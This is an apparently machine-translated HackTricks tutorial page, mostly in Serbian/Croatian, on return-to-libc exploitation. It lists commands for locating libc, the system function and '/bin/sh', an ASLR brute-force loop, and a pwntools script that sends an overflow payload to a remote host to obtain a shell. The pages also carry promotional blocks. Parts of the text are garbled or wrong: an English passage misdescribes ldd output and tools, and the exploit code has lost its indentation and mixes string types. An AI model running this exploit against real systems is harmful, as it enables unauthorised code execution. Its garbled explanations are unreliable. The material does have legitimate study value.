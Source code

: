 <details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>


**Ako ste pronašli ranjivu binarnu datoteku i mislite da je možete iskoristiti pomoću Ret2Lib, ovde možete pronaći neke osnovne korake koje možete pratiti.**

# Ako ste **unutar** **hosta**

## Možete pronaći **adresu lib**c
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Ako želite da proverite da li ASLR menja adresu libc-a, možete uraditi sledeće:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Dobijanje ofseta funkcije system

To get the offset of the system function, we can use the `objdump` command to analyze the binary file. The system function is usually located in the libc library, so we need to find the address of the system function in libc.

First, we need to identify the libc library used by the target binary. We can do this by running the `ldd` command followed by the path to the binary. This will display the shared libraries used by the binary, including the libc library.

Once we have identified the libc library, we can use the `objdump` command to analyze the library file. We need to find the address of the system function within the libc library. We can search for the system function using the `grep` command and the pattern `\<system\>`. This will give us the address of the system function.

With the address of the system function, we can calculate the offset by subtracting the base address of the libc library. The base address can be obtained by running the `ldd` command followed by the path to the libc library and looking for the "base address" line.

By subtracting the base address from the address of the system function, we can obtain the offset. This offset can be used in various exploitation techniques, such as return-to-libc attacks.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Dobijanje ofseta "/bin/sh"

Da biste dobili ofset "/bin/sh" u ciljnom programu, možete koristiti alat kao što je `pwntools` ili `ROPgadget`. Ovi alati vam omogućavaju da pronađete ofsete određenih stringova u bibliotekama koje su učitane u ciljni program.

Evo primera koda koji koristi `pwntools` biblioteku za dobijanje ofseta "/bin/sh":

```python
from pwn import *

elf = ELF('target_binary')
bin_sh_offset = next(elf.search(b'/bin/sh'))

print(f'Offset of "/bin/sh": {hex(bin_sh_offset)}')
```

Nakon izvršavanja ovog koda, dobićete ofset "/bin/sh" u heksadecimalnom formatu.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Ako proces svaki put kada komunicirate s njim (mrežni server) stvara **djecu**, pokušajte **pročitati** tu datoteku (vjerojatno će vam trebati root pristup).

Ovdje možete pronaći **točno gdje je učitan libc** unutar procesa i **gdje će biti učitan** za svako dijete procesa.

![](<../../.gitbook/assets/image (95).png>)

U ovom slučaju je učitan na adresi **0xb75dc000** (Ovo će biti bazna adresa libc-a)

## Korištenje gdb-peda

Dobijte adresu funkcije **system**, funkcije **exit** i stringa **"/bin/sh"** koristeći gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Zaobilazak ASLR-a

Možete pokušati da brute force-ujete baznu adresu libc-a.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Kod
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
